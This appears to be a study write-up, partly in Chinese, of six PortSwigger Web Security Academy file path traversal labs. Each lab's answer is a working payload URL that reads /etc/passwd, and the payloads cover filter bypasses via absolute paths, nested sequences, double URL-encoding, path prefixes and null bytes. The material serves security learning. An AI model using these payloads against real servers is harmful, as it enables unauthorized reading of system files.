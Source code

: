 # Directory traversal

## [Lab: File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)
### 題目敘述
 This lab contains a file path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the /etc/passwd file. 
### 題目解釋
圖片網址的地方可以任意讀檔，嘗試讀取 `/etc/passwd`。

### 解答

觀察一個圖片

```
https://ac801f311fe78ab8c0bf223f000500bf.web-security-academy.net/image?filename=11.jpg
```

修改 Filename

```
https://ac801f311fe78ab8c0bf223f000500bf.web-security-academy.net/image?filename=../../../../../../../etc/passwd
```


## [Lab: File path traversal, traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)
### 題目敘述
This lab contains a file path traversal vulnerability in the display of product images.

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the /etc/passwd file. 
### 題目解釋
封鎖 `../` 之類的東西，但可以直接用絕對路徑，目標一樣是看 `/etc/passwd`
### 解答
```
https://ac8f1f041f3f4134c06c7b4500fb0046.web-security-academy.net/image?filename=/etc/passwd
```

## [Lab: File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)
### 題目敘述
This lab contains a file path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the /etc/passwd file. 

### 題目解釋
他可能會拔掉 `../` 這樣的東西，所以改用 `....//` 來繞過

### 解答

```
https://ac9a1f2a1ee4835dc0b1094700f30004.web-security-academy.net/image?filename=....//....//....//....//....//....//....//....//....//etc/passwd
```

## [Lab: File path traversal, traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)
### 題目敘述
This lab contains a file path traversal vulnerability in the display of product images.

The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

To solve the lab, retrieve the contents of the /etc/passwd file. 
### 題目解釋
Payload 可能會需要 URLEncode (雙重 Encode)
### 解答
```
https://ac881f2d1e5c2aaec0e6d408004d0047.web-security-academy.net/image?filename=..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd
```

## [Lab: File path traversal, validation of start of path](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)
### 題目敘述
 This lab contains a file path traversal vulnerability in the display of product images.

The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the /etc/passwd file. 

### 題目解釋
前面需要有固定檔名

### 解答
```
https://ace61f2a1f182da3c0fe7829002300e9.web-security-academy.net/image?filename=/var/www/images/../../../../../../etc/passwd
```

## [Lab: File path traversal, validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)
### 題目敘述
 This lab contains a file path traversal vulnerability in the display of product images.

The application validates that the supplied filename ends with the expected file extension.

To solve the lab, retrieve the contents of the /etc/passwd file. 
### 題目解釋
強迫要有附檔名，可以用 `%00` 來繞
### 解答
```
https://acfc1fdf1f31bbdec0a104ac00fc003b.web-security-academy.net/image?filename=../../../../../../etc/passwd%00.jpg
```
